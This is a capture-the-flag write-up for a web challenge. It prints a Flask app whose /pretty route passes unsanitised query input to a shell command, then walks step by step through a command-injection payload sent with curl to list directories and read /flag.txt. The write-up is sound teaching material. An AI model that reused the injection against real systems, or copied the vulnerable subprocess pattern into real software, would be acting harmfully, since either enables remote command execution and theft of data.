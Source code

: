 ```yaml
---
layout: writeup
title: Induction Therapy
tags: WebX
---
```


## Description

The citizens of Freedonia are preparing for an upcoming national vote - but before they can make their voices heard, they’ll need to get informed. This challenge drops participants into a voter education web portal where all candidates, policies, and debates are presented for review. Only time will tell who'll you vote for soon...

http://redac.ted:9001/

We were also then given the source code

## Solution

Here is the app.py for this challenge:

```python
from flask import Flask, request, render_template  # update import
import subprocess

app = Flask(__name__)

# Gotta serve something to the public, right?
@app.route("/")
def index():
    return render_template("index.html")

@app.route('/candidates')
def candidates():
    return render_template('candidates.html')

@app.route('/policies')
def policies():
    return render_template('policies.html')

@app.route('/debate')
def debate():
    return render_template('debate.html')

@app.route("/pretty")
def pretty():
    fmt = request.args.get("format", "")
    try:
        result = subprocess.check_output(f"date +'{fmt}'", shell=True, stderr=subprocess.STDOUT, timeout=2)
        return f"{result.decode()}"
    except subprocess.CalledProcessError as e:
        return f"Error: {e.output.decode()}", 400
    except Exception as e:
        return f"{str(e)}", 500

@app.route("/subscribe", methods=["POST"])
def subscribe():
    email = request.form.get("email", "")
    print(f"Received subscription request from: {email}")
    return "Subscribed", 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=9001)
```

A promosing line in here is:

```python
# ...
@app.route("/pretty")
def pretty():
	fmt = request.args.get("format", "")
	try:
		result = subprocess.check_output(f"date +'{fmt}'", shell=True, stderr=subprocess.STDOUT, timeout=2)
# ...
```

For those who don't know, `subprocess` is used to execute code in the shell, and they use no sanitisation when getting client input and using it in a code execution. So we can put any code in a query at `/pretty` and therefore execute any code we want as long as the command takes less then 2 seconds to execute. Lets test this.

```bash
$ curl "http://3.105.27.130:9001/pretty?format=';ls;:'"

"<sfi000024v576754>
"<sfi000025v576754>
"<sfi000032v294427>
"<sfi000033v294427>
app.py
templates
```

Let's break down that payload: `';ls;:'` This creates the full command `date + '';ls;:''`

The first first apostrophe is used to escape the already existanct apostropher, the semi colon is used to exeucte another command, and then to escape the last apostrophe gained from the `'{fmt}'`

The colon is used becuase `:''` does nothing, and as such removes the error message having a `''` would cause. So by just putting out command in between `';` and `;:'` we can execute whatever command we want.

Time to find the flag

```bash
$ curl "http://3.105.27.130:9001/pretty?format=';ls%20/;:'"

app
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

And there is the flag in the filesystem root directory `/` time to cat it

```bash
$ curl "http://3.105.27.130:9001/pretty?format=';cat%20/flag.txt;:'"

secedu{th3re_is_4lways_a_t1me_&_plac3_to_bre4k_0u7}
```

Finally we have the flag: `secedu{th3re_is_4lways_a_t1me_&_plac3_to_bre4k_0u7}`

